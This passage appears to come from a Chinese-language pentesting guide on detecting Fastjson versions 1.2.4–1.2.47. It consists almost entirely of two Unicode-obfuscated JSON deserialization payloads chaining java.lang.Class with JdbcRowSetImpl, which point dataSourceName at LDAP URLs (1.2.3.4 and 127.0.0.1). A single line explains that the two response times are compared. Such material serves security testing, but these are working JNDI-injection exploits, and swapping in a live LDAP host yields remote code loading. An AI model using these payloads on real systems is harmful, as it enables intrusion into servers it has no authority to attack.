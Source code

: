 #### 2.3.2.1 判断 1.2.4<=version<=1.2.47

`payload26`（组合拳）：

```plain
{"name":{"\u0040\u0074\u0079\u0070\u0065":"\u006a\u0061\u0076\u0061\u002e\u006c\u0061\u006e\u0067\u002e\u0043\u006c\u0061\u0073\u0073","\u0076\u0061\u006c":"\u0063\u006f\u006d\u002e\u0073\u0075\u006e\u002e\u0072\u006f\u0077\u0073\u0065\u0074\u002e\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c"},"x":{"\u0040\u0074\u0079\u0070\u0065":"\u0063\u006f\u006d\u002e\u0073\u0075\u006e\u002e\u0072\u006f\u0077\u0073\u0065\u0074\u002e\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c","\u0064\u0061\u0074\u0061\u0053\u006f\u0075\u0072\u0063\u0065\u004e\u0061\u006d\u0065":"ldap://1.2.3.4/test111","autoCommit":true}}
```

```plain
{"name":{"\u0040\u0074\u0079\u0070\u0065":"\u006a\u0061\u0076\u0061\u002e\u006c\u0061\u006e\u0067\u002e\u0043\u006c\u0061\u0073\u0073","\u0076\u0061\u006c":"\u0063\u006f\u006d\u002e\u0073\u0075\u006e\u002e\u0072\u006f\u0077\u0073\u0065\u0074\u002e\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c"},"x":{"\u0040\u0074\u0079\u0070\u0065":"\u0063\u006f\u006d\u002e\u0073\u0075\u006e\u002e\u0072\u006f\u0077\u0073\u0065\u0074\u002e\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c","\u0064\u0061\u0074\u0061\u0053\u006f\u0075\u0072\u0063\u0065\u004e\u0061\u006d\u0065":"ldap://127.0.0.1/test111","autoCommit":true}}
```

先用第一个，再用第二个，如果第一个响应时间很长，而第二个较短，则说明版本：  
[![](assets/1706959415-8917292f3b24d9152e049c84755ec690.png)](https://cdn.nlark.com/yuque/0/2023/png/25360791/1697705261887-a3d305c7-12f2-4e20-b529-5ec3cfe66d03.png)  
[![](assets/1706959415-48e4aef1c3275193e3d425cc94473517.png)](https://cdn.nlark.com/yuque/0/2023/png/25360791/1697705242447-39abdb46-d477-40f6-809b-7661a5430e49.png)
